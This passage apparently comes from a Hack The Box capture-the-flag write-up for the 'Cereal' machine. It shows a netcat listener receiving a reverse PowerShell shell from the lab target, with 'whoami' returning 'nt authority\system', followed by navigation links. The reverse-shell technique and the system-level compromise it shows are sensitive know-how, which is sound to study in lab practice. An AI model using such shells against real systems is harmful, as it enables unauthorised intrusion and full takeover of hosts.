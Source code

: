 
When it completes, there’s a callback at my `nc`:

    
    
    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.217] 49791
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\windows\system32\inetsrv> whoami
    nt authority\system
    

[« HTB: Cereal](/2021/05/29/htb-cereal.html)

[](/2021/05/31/htb-cereal-unintended.html)

